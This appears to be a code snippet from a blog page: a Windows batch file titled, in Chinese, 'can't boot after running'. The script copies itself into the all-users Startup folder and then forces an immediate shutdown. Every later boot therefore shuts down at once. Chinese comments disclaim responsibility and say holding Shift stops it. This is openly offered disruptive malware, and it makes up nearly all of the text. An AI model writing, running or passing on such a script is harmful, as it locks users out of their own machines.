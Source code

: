 {% codeblock 运行后开不了机.bat lang:vbs %}
    @rem 一切后果本人不承担责任。
    @copy %0 "%ALLUSERSPROFILE%\「开始」菜单\程序\启动"
    @shutdown -s -t 0
    @rem 运行后开不了机了...
    @rem shift stop it.
{% endcodeblock %}
